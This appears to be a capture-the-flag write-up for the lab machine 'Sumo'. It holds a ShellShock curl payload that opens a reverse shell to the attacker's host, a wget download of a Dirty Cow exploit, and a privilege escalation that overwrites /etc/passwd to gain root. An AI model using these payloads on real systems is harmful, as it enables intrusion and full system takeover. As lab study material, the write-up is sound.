





# PG Play - Sumo

#### Ip: 192.168.235.211
#### Name: Sumo
#### Difficulty: Easy
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions.

```text
┌──(ryan㉿kali)-[~/PG/Sumo]
└─$ sudo nmap -p-  --min-rate 10000 192.168.234.87 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-11 12:56 CDT
Nmap scan report for 192.168.234.87
Host is up (0.071s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 06cb9ea3aff01048c417934a2c45d948 (DSA)
|   2048 b7c5427bbaae9b9b7190e747b4a4de5a (RSA)
|_  256 fa81cd002d52660b70fcb840fadb1830 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.46 seconds
```

Taking a look at the page on port 80 we find a static, generic It Works page:



Kicking off a Nikto scan against the target, we find a `/cgi-bin/test` directory and Nikto indicates it may be vulnerable to ShellShock.



Lets try it out.

### Exploitation

We can exploit this using curl:

```text
┌──(ryan㉿kali)-[~/PG/Sumo]
└─$ curl -H "user-agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.45.177/443 0>&1" \http://192.168.234.87/cgi-bin/test 
```

And get a shell on the back as www-data:

```text
┌──(ryan㉿kali)-[~/PG/Sumo]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.45.177] from (UNKNOWN) [192.168.234.87] 54270
bash: no job control in this shell
www-data@ubuntu:/usr/lib/cgi-bin$ whoami
whoami
www-data
www-data@ubuntu:/usr/lib/cgi-bin$ hostname
hostname
ubuntu
```

From here I can grab the local.txt flag:



### Privilege Escalation

Transfering over LinPEAS, we see that the box is vulnerable to Dirty Cow:



We can transfer the exploit over, but get an error when trying to compile:

```text
www-data@ubuntu:/tmp$ wget http://192.168.45.177/dirtycow.c
wget http://192.168.45.177/dirtycow.c
--2023-09-11 11:18:03--  http://192.168.45.177/dirtycow.c
Connecting to 192.168.45.177:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4814 (4.7K) [text/x-csrc]
Saving to: `dirtycow.c'

     0K ....                                                  100%  778K=0.006s

2023-09-11 11:18:03 (778 KB/s) - `dirtycow.c' saved [4814/4814]

www-data@ubuntu:/tmp$ gcc -pthread dirtycow.c -o dirty -lcrypt
gcc -pthread dirtycow.c -o dirty -lcrypt
gcc: error trying to exec 'cc1': execvp: No such file or directory
```

To fix this we'll need to update the path:

```text
PATH=PATH$:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/gcc/x86_64-linux-gnu/4.8/;export PATH
```

We can now compile and run the exploit:

```text
www-data@ubuntu:/tmp$ gcc -pthread dirtycow.c -o dirty -lcrypt
www-data@ubuntu:/tmp$ chmod +x dirty
www-data@ubuntu:/tmp$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fijI1lDcvwk7k:0:0:pwned:/root:/bin/bash

mmap: 7fb55734a000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'pass'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'pass'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
www-data@ubuntu:/tmp$ su firefart
Password: 
firefart@ubuntu:/tmp# id
uid=0(firefart) gid=0(root) groups=0(root)
```

Nice, that worked. Lets grab the final flag:



Thanks for following along!

-Ryan

-------------------------------------------------------
